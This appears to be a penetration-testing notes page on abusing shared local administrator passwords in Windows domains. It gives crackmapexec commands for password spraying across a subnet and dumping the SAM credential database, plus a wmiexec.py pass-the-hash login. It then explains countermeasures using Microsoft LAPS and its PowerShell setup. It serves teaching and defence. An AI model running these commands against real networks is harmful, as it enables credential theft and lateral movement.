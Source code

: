 # Shared Local Administrator Password

* Typical used in Deployment Solutions
* Easy for admins to login to various servers/machines when problem arises
* Attackers can get hash on one machine and use it on all other machines

## Shared Administrator Password



Map the Local Network

```
crackmapexec smb 192.168.130.1/29
```



Spray Username and Password across the Network

<pre><code><strong>crackmapexec smb 192.168.130.1/29 -u web1admin -p 'P@ssw0rd' -d trustedsec.int
</strong></code></pre>



Dump the SAM database for one specific host

```
crackmapexec smb 192.168.130.1/29 -u web1admin -p 'P@ssw0rd' -d trustedsec.int --sam
```



Access the Client using the hash found in previous step

```
wmiexec.py WORKGROUP/administrator@192.168.130.4 -hashes <hash goes here>
```



## Countermeasures

* One easy way of changing this is to use Local Administrator Password Solution (LAPS) from Microsoft.
* Change who is allowed to login over the network.

##

## LAPS and Preventing over the network login with local accounts



### In The Domain Controller Machine

* Visit: [https://aka.ms/laps](https://aka.ms/laps)
* Download: LAPS.x64.msi
* Installation Steps
  * Select AdmPwd GPO Extension as Entire feature will be unavailable
  * Select Management Tools as Entire feature will be installed on local hard drive
  * Select Fat client UI as Entire feature will be unavailable

#### After Installation of LAPS

* Open Powershell

Import the Module we have just installed

```powershell
Import-Module admpwd.ps
```

```powershell
Update-AdmPwdADSchema
```

```powershell
Set-AdmPwdComputerSelfPermission -Identity <"computer's distinguise name here">
```

```powershell
Set-AdmPwdComputerSelfPermission -Identity <"computer's distinguise name here"> -AllowedPrincipals <"Group Name here">
```

